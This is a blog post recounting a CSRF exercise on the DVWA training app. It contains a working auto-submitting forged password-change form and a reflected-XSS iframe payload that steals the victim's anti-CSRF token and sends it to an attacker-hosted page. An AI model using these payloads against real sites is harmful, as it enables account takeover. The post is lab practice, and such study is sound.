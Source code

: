```yaml
---
title: Powerful CRSF exploit with iFrames
layout: post
date: "2019-02-10 11:17:20 -0700"
tags:
  - Hacking
  - Web
thumbnail: coverhack.svg
comments: true
---
```


I was training my hacking skills on the DVWA, for the attacks CRSF ( Cross Site Request Forgery ) and I wanted an elegant way to orchestrate my attack.

## Brief Explanation of CRSF

To make it simple, a CRSF is an attack consisting in making the victim do a request without their consent. To get the idea, it could be a link redirecting to : `http://website_not_protected.com/change_password.php?new_password=hacked.`

Without any protection from the website, a victim clicking on this link would change their password without noticing. But it is not that easy ( fortunately .. ), that change_password.php page require you to be logged. A way for a hacker to counter this would be to insert some code on the website to redirect you to the page without losing your session cookie ( what keeps you logged on the website ). In that perspective, the hacker needs another exploit to insert some code on the website.

## The idea of the iFrames

The iFrames can be used in javascript to open another page, just like this :
{% highlight html %}

<iframe type="hidden" id="iframe" 
src="http://10.6.66.42/dvwa/vulnerabilities/csrf/" 
onload="window.open('//10.6.66.64/index.php"></iframe>
										 
{% endhighlight %}
										 
There are very powerful as an hacking tool, since they can be invisible for the user. Here, the iFrame opens a website we are hosting ( supposing our IP is 10.6.66.64 ). The idea will be to open such an iFrame by exploiting another breach, and calling our own page that will send a form to change the password of the user.

## The attack

Usually, such an attack requires another weakness. One of the most common exploit that can be used for a CRSF is a XSS. We are going to test our attack on the security high of the DVWA. We need first to prepare our page. We need to send a form to `http://10.6.66.42/dvwa/vulnerabilities/csrf/` that requires a user_token. Here is the page we are going to host :

{% highlight html %}

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
  <head>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
    <title>Exploit</title>
    <meta name="referrer" content="no-referrer">
    <style type="text/css" media="screen"></style>
  </head>

  <body >
     <form method="GET" action="http://10.6.66.42/dvwa/vulnerabilities/csrf/" target="csrf-frame" id="csrf-form">
        <input type="hidden" name="password_new" value="password">

        <input type="hidden" name="password_conf" value="password">
        <input type="hidden" name="user_token" value="<?php echo $_REQUEST['user_moken'];?>">
        <input type="hidden" name="Change" value="Change">

   </form>
   <Script>document.getElementById("csrf-form").submit();</Script>

  </body>
</html>
{% endhighlight %}

The request will pass only if the value of user_token corresponds to the victim token. So the iFrame will need to grab that value, and give it to our page as paramater ( called moken here ). This value can be collected with the following javascript code on the password change page at `http://10.6.66.42/dvwa/vulnerabilities/csrf/`.

{% highlight javascript %}
var moken = this.contentDocument.getElementsByName('user_token')[0].value
{% endhighlight %}

Putting all together, the idea is to create an iFrame that would request `http://10.6.66.42/dvwa/vulnerabilities/csrf/`, collect the token, and send it to our hosted page within the same iFrame. We can exploit the XSS Reflected page to call our iFrame :

{% highlight html %}

<iframe type=hidden" id="iframe" src="http://10.6.66.42/dvwa/vulnerabilities/csrf/" 
onload="
var moken = this.contentDocument.getElementsByName('user_token')[0].value;
window.open('//10.6.66.64/index.php?user_moken='+moken)
"></iframe>
 {% endhighlight %}
